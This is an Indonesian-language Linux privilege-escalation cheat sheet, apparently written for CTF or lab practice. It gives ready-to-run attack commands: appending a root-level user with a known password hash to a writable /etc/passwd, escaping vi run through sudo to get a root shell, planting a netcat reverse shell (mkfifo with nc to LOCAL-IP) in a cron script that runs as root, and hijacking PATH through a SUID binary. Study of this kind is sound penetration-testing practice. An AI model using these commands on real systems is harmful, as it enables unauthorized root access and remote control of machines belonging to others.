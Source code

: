 # Enumeration

lakukan enumerating dengan menggunakan [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) dimana kita mengirimkan filenya ke target, dan menjalankannya di target untuk dapat mengetahui vuln yang ada di target dan dapat mengetahui privesc apa yang dapat dilakukan.

## Exploiting a writable /etc/passwd

```shell
test:x:0:0:root:/root:/bin/bash
```

[as divided by colon (:)]

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

sebelum menambah user ke `/etc/passwd` kita perlu membuat password beserta nama user yang di hash. Lakukan:

```shell
openssl passwd -1 -salt nama_user password
```

contoh:

```shell
openssl passwd -1 -salt new 123

> $1$new$p7ptkEKU1HnaHpRtzNizS1
```

selanjutnya tambahkan kedalam `/etc/passwd` sebagai root user baru

```
echo "new:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash" >> /etc/passwd
```

terakhir, kita dapat login dengan user "new" tersebut dengan

```shell
su new
password: 123
```

## Escaping Vi Editor

ketika kita masuk akun, kita dapat cek `sudo -l` untuk melihat list command sudo yang dapat dilakukan.

jika terdapat hasil seperti berikut

```shell
sudo -l
> ...
  User user8 may run the following commands on polobox:
      (root) NOPASSWD: /usr/bin/vi
```

maka kita dapat menggunakan teknik `escape vi`, dengan cara run vi editor dengan `sudo`. kita tidak akan diminta password karena dari hasil `sudo -l` kita tahu bahwa `NOPASSWD` untuk menjalankan vi dalam keadaan root. setelah masuk ke vi, kita dapat tuliskan berikut

```shell
...
:!/bin/sh
```

atau jika tidak masuk ke vi, kita dapat menggunakan

```shell
vi -c ':!/bin/sh' /dev/null

# atau

vi
:set shell=/bin/sh
:shell
```

## Exploiting Crontab

untuk exploit melalui crontab, kita dapat cek terlebih dahulu dengan

```shell
cat /etc/crontab
```

untuk melihat apakah ada proses yang akan dijalankan otomatis secara berkala. jika ada, dan dijalankan sebagai user `root` kita dapat menggunakannya sebagai privesc.

dalam hal ini contohnya terdapat file yang tiap 5 menit akan dijalankan secara otomatis oleh user `root`, yaitu file yang ada di `/home/user4/Desktop/autoscript.sh`. maka kita dapat menggunakannya untuk mendapatkan revshell. pertama kita siapkan command yang akan kita masukkan kedalam file `autoscript.sh` tersebut dengan caran men-generate

```shell
msfvenom -p cmd/unix/reverse_netcat lhost=LOCAL-IP lport=LOCAL-PORT

> ...
  mkfifo /tmp/llrnis; nc LOCAL-IP LOCAL-PORT 0</tmp/llrnis | /bin/sh >/tmp/llrnis 2>&1; rm /tmp/llrnis
```

selanjutnya kita dapat copy command tersebut dan memasukkannya kedalam `/home/user4/Desktop/autoscript.sh` dengan cara

```shell
echo "mkfifo /tmp/llrnis; nc LOCAL-IP LOCAL-PORT 0</tmp/llrnis | /bin/sh >/tmp/llrnis 2>&1; rm /tmp/llrnis" > autoscript.sh
```

lalu kita tinggal membuat listener menggunakan netcat dengan port yang telah kita buka sebelumnya

```shell
nc -lvnp LOCAL-PORT
```

terakhir kita hanya tinggal menuggu saja hingga nantinya file `autoscript.sh` dijalankan secara otomatis dan kita mendapat revshell.

## Exploiting Path Variable

PATH merupakan enviro variable di linux dan unix-like OS yang specified dir yang memegang executable program. ketika user run command apapun di terminal, maka akan dicari exec file dengan bantuan PATH. untuk dapat melihat PATH kita dapat menggunakan `echo $PATH`.

untuk dapat melakukan privesc dengan cara ini, kita memerlukan SUID binary yang ketika di run akan melakukan basic proses seperti `ps`. kita disini asumsikan tidak dapat provide argumen apapun untuk command injection. maka hal yang dapat kita lakukan adalah modify PATH variable ke lokasi sesuai pilihan kita, dalam hal ini adalah shell. namun ini bergantung pada siapa owner dari SUID file ini, jika owner adalah root, maka kita dapat menggunakannya untuk langsung dapat privesc ke shell.

caranya adalah, karena dalam hal ini `./script` ketika dijalankan akan melakukan perintah `ls`, maka dalam hal ini kita akan memodifikasi PATH, dengan cara

```shell
echo /bin/bash > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

setelah membuat `ls` baru, kita buat menjadi executable file, lalu kita mengubah PATH ke `/tmp`. selanjutnya kita hanya tinggal run `./script` untuk menjadi `root`.

namun belum selesai, karena kita mengganti `ls` asli, maka kita tidak akan bisa menggunakan command tersebut. maka kita perlu mengganti PATH nya lagi menjadi normal, dengan cara:

```shell
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```

**INGAT!** ubah PATH menjadi normal **ketika sudah run** `./script`. karena jika tidak, maka ketika kita run `./script` akan tetap melakukan command `ls`.